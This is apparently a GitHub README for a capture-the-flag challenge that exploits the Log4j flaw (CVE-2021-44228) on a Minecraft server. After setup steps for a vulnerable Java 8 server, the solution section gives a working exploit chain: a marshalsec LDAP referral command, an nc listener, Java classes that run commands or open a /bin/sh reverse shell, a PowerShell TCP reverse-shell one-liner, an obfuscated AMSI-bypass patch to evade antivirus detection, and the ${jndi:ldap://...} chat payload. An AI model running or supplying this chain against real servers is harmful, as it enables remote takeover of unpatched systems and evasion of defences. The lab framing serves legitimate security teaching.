

# Minecraft Log4j Exploit

A fully working example of how to exploit log4j (CVE-2021-44228) on a Minecraft server as a CTF challenge

## Author

[Justin Garey](https://github.com/Justin-Garey)

## Abstract

Using a vulnerable version of java and a Minecraft server jar, we can show how log4j can be exploited with ease. There are plenty of online resources for how this can be done because of just how big this vulnerability was and somewhat still is.



## Prompt for The Logs Say I Cannot Play

My friend took me off the whitelist for their Minecraft server. Could you put me back on there since you can play on the server? Not sure if it helps, but they are running it on java 8 which has some sort of logging issue.

## Setup

The victim in this case is a Minecraft server running on a vulnerable version of java. To set this up, we can easily create a virtual machine (vm) to host the server.

### For a windows machine:

Start by downloading Java 8.
- [Oracle](https://www.oracle.com/java/technologies/downloads/)
  - Go to the Java Archive, select Java SE 8 (8u202 and earlier), then download jre-8u181-windows-x64.exe.

Then you will need the server.jar file. I used Minecraft 1.8.8 but I have not tested with other versions.
- [mcversions](https://mcversions.net/)
  - Great place to get any Minecraft version

Make sure you have the windows defender, the firewall, and antivirus turned off so the commands/reverse shell can go through.

Use the command below to start the server. It will fail as you need to go into the eula.txt after it gets created to set eula=true.
```
java -Xmx2500M -Xms2500M -jar server.jar nogui
```

To set the flag, put this into the whitelist.json that was created when you ran the jar file
```
[
  {
    "uuid": "xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx",
    "name": "BobcatCTF{Hackers-Always-Be-Ruining-My-Bedwars-Stats}"
  }
]
```

### For an ubuntu machine

Download Java 8
- [Oracle](https://www.oracle.com/java/technologies/downloads/)
  - Go to the Java Archive, select Java SE 8 (8u202 and earlier), then download jre-8u181-linux-x64.tar.gz.

To set up Java:
```
sudo mkdir -p /usr/lib/jvm

sudo tar -zxvf jre-8u181-linux-x64.tar.gz -C /usr/lib/jvm

sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jre1.8.0_181/bin/java" 1
```
Run 'java -version' and if your version is not 1.8.0 then use this command and select the correct version of java.
```
sudo update-alternatives --config java
```

Then you will need the server.jar file. I used Minecraft 1.8.8 but I have not tested with other versions.
  - [mcversions](https://mcversions.net/)
    - Great place to get any Minecraft version

Use the command below to start the server. It will fail as you need to go into the eula.txt after it gets created to set eula=true.
```
java -Xmx2500M -Xms2500M -jar server.jar -nogui
```

To set the flag, put this into the whitelist.json that was created when you ran the jar file
```
[
  {
    "uuid": "xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx",
    "name": "BobcatCTF{Hackers-Always-Be-Ruining-My-Bedwars-Stats}"
  }
]
```

### Setting up a docker instance

Using Ubuntu 14.04 ( Any version should work )

- Create a folder caller server.

To start with download the tar file for Java 8 into the server folder.
- [Oracle](https://www.oracle.com/java/technologies/downloads/)
  - Go to the Java Archive, select Java SE 8 (8u202 and earlier), then download jre-8u181-linux-x64.tar.gz.

Then you will need the server.jar file. I used Minecraft 1.8.8 but I have not tested with other versions. Make sure to also download this into the server folder.
- [mcversions](https://mcversions.net/)
  - Great place to get any Minecraft version
Use the command below to start the server. It will fail as you need to go into the eula.txt after it gets created to set eula=true.
```
java -Xmx2500M -Xms2500M -jar server.jar --nogui
```
To set the flag, put this into the whitelist.json that was created when you ran the jar file
```
[
  {
    "uuid": "xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx",
    "name": "BobcatCTF{Hackers-Always-Be-Ruining-My-Bedwars-Stats}"
  }
]
```
I would recommend creating a start_server.sh script in the server folder. That would look like
```
#!/bin/sh

java -Xmx2500M -Xms2500M -jar server.jar -nogui
```
Now to create the Dockerfile.
```
# syntax = docker/dockerfile:1.3

FROM ubuntu:14.04

WORKDIR /server

COPY ./server /server

RUN sudo mkdir -p /usr/lib/jvm

RUN sudo tar -zxvf jre-8u181-linux-x64.tar.gz -C /usr/lib/jvm

RUN sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jre1.8.0_181/bin/java" 1

CMD chmod +x start_server.sh && ./start_server.sh

EXPOSE 25565
```
- We can use any tagged version of ubuntu or maybe even other linux distributions.

To build the docker image from the directory with the Dockerfile:
```
docker build -t minecraft-server .
```

To run the image which will create and host the server:
```
docker run -it --ulimit nofile=122880:122880 -p 25565:25565 minecraft-server:latest
```

A problem I ran into at this point was that I needed the IP of the docker instance. To get this, you grab the id of the container, then using the id you can see the information of that container.
```
sudo docker ps
```

Another problem I ran into was the port not being used by the machine to connect to docker. You can check if the port of the machine is active with:
```
sudo lsof -i:25565
```

Using the id from the return:
```
sudo docker container inspect <ID> | grep -i IPADDRESS
```

## Solving the challenge

The simplest way to solve this is by crafting a bit of malicious code to give yourself a reverse shell so you can view the contents of the whitelist.json. This can be done by setting up an ldap referrer, a web server, and a netcat listener. I personally used a Kali vm to host these servers and serve the malicious code.

### First steps

Get the ip address of your vm whether it is local or in the cloud.

Install the Java Development Kit ( JDK ) for Java 8.
- [Oracle](https://www.oracle.com/java/technologies/downloads/)
  - Go to the Java Archive, select Java SE 8 (8u202 and earlier), then download jdk-8u181-linux-x64.tar.gz.
- Using that tar file, we need to set up the correct Java version and Java Compiler versions.
```
sudo mkdir -p /usr/lib/jvm

sudo tar -zxvf jdk-8u181-linux-x64.tar.gz -C /usr/lib/jvm

sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_181/bin/java" 1

sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_181/bin/javac" 1
```
- Run 'java -version' and if your version is not 1.8.0 then use this command and select the correct version of java.
```
sudo update-alternatives --config java
```
- Same with 'javac -version'. If it is not 1.8.0 then:
```
sudo update-alternatives --config javac
```

Now we need maven installed:
```
sudo apt install maven
```

### Setting up the LDAP referral

The LDAP ( Lightweight Directory Access Protocol ) referral sends the request to the web server.

Start by cloning the marshalsec [repo](https://github.com/mbechler/marshalsec)
- Then cd into the directory.
- Take a moment to check out this [repository](https://github.com/xiajun325/apache-log4j-rce-poc)

Run this to get maven setup:
```
mvn clean package -DskipTests
```

Lastly, start the LDAP server: 
```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<ADDRESS>:<PORT>/#Log4jRCE"
```
- Replacing address and port with the address and port of your web server.

### Setting up the web server

The web server will be used to serve the malicious code back to the Minecraft server. It is very simple to setup, just a single python command.
```
python -m http.server
```

### Setting up the netcat listener

This is where the victim machine will connect to us to provide a reverse shell.
```
nc -lnvp 9999
```
- This sets up the netcat listener on port 9999

### Crafting the code to be executed

Back to this [repository](https://github.com/xiajun325/apache-log4j-rce-poc), we can see the start of some code in the src/main/java/Log4jRCE.java file.

Modifying that we get:
```
public class Log4jRCE {
    static {
        try {
           String fireCmd = "firefox --new-window youtube.com/@Justin-Garey"; //Ubuntu
           String calcCmd = "calc.exe";  //Windows
           String revPowershell = "";
           Runtime.getRuntime().exec(calcCmd).waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
- Put this file in the same directory as where you are running the web server.
- If you are running a windows vm, then you will see the calculator pop up.
- For an ubuntu machine, switch where the command used is specified to "fireCmd". You should see firefox open up to a certain youtube channel.

To compile the java code
```
javac Log4jRCE.java
```
- This will give us Log4jRCE.class which would be sent to any server upon a request to the http server.

### Reverse shell on windows machine with firewall, defender, and antivirus turned off

Firstly, we need a command for the reverse shell
```
$client = New-Object System.Net.Sockets.TCPClient('127.0.0.1',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
- https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3

Secondly, we need a way to encode it. This tool works well.
- https://raikia.com/tool-powershell-encoder/
  - Switch the address and port from the gist to the address and port you want the victim to connect to (The attacking machine)

Lastly, we want to put a snippet that will stop the amsi interface from detecting our malicious intentions.
```
#Rasta-mouses Amsi-Scan-Buffer patch \n
$pnlol = @"
using System;
using System.Runtime.InteropServices;
public class pnlol {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr vesvmg, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $pnlol

$okkigsm = [pnlol]::LoadLibrary("$([CHAR]([BYTe]0x61)+[chAR]([bYte]0x6d)+[Char]([bYTe]0x73)+[Char]([bytE]0x69)+[cHAr]([BYTe]0x2e)+[ChAR](100*70/70)+[CHAR]([ByTe]0x6c)+[CHaR]([Byte]0x6c))")
$rfjypi = [pnlol]::GetProcAddress($okkigsm, "$([chAR](47+18)+[CHAR]([ByTe]0x6d)+[ChaR](115*22/22)+[cHAr]([BYTe]0x69)+[CHar](69+14)+[chaR](99+56-56)+[CHAr]([BYTE]0x61)+[chAR]([BYTe]0x6e)+[ChAR](66+54-54)+[chaR]([byTE]0x75)+[CHar]([BYte]0x66)+[ChAR](102)+[cHar]([BYte]0x65)+[CHAR](114+56-56))")
$p = 0
[pnlol]::VirtualProtect($rfjypi, [uint32]5, 0x40, [ref]$p)
$oifx = "0xB8"
$omcv = "0x57"
$qmvq = "0x00"
$gluw = "0x07"
$cwaj = "0x80"
$bvge = "0xC3"
$isvpg = [Byte[]] ($oifx,$omcv,$qmvq,$gluw,+$cwaj,+$bvge)
[System.Runtime.InteropServices.Marshal]::Copy($isvpg, 0, $rfjypi, 6)
```
- http://amsi.fail/
  - Specifically grabbed the Rasta-mouses Amsi-Scan-Buffer patch

Th output should look something like this:
```
powershell.exe -exec bypass -enc IwBSAGEAcwB0AGEALQBtAG8AdQBzAGUAcwAgAEEAbQBzAGkALQBTAGMAYQBuAC0AQgB1AGYAZgBlAHIAIABwAGEAdABjAGgAIABcAG4ADQAKACQAaQBxAGEAZQBmACAAPQAgAEAAIgANAAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0AOwANAAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0ALgBSAHUAbgB0...
```
- Copy this into the java file for the rePowershell string, set that as the command to be executed, then recompile the code.

### Reverse Shell on Ubuntu Machine or Docker Instance

Our code will look a bit different. Rather than executing a command to create the reverse shell, we can do it with java code.

```
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;
public class Log4jShell {
    public Log4jShell() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}
```
- This comes from: https://github.com/kozmer/log4j-shell-poc

You need to replace the host and port variable with your netcat listener host and port. You also need to set up the LDAP referral to go to this file instead of the Log4jRCE.

### Doing the exploit

To actually do the exploit, you need to be in Minecraft on the server. When you send a chat message, that gets logged. We can also make use of JNDI ( Java Naming and Directory Interface ) functionality to connect to our LDAP server. To make that connection happen, in the chat send:
```
${jndi:ldap://address:port/path}
```
- The address is the address of your attacking machine ( specifically the LDAP server ).
- The port is the port you assigned to the LDAP server
- The path is the name of the file to send back ( such as Log4jRCE or Log4jShell)

Now there should be a reverse shell granting you access to the server.

## References
- https://github.com/davidbombal/log4jminecraft
- https://github.com/mbechler/marshalsec
- https://github.com/xiajun325/apache-log4j-rce-poc
- https://www.youtube.com/watch?v=efnluUK_w_U
- https://www.youtube.com/watch?v=7qoPDq41xhQ&t
- https://mcversions.net/
- https://github.com/kozmer/log4j-shell-poc